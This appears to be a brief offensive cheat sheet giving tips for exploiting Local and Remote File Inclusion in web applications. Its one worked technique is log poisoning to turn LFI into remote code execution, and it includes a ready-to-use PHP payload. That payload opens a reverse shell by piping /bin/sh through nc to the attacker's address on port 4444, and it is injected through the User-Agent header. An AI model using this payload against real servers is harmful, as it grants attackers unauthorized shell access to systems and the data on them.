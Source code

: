 # Local & Remote File Inclusion Attacks
> tips for exploiting LFI/RFI on a web app

## LFI
-----
#### Log Poisoning -> LFI to RCE
- if you can use LFI to retrieve log resource
1. set listener
2. change user-agent to this to this and then submit and use LFI again to request log resource
```<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [my-ip] 4444 >/tmp/f') ?>```

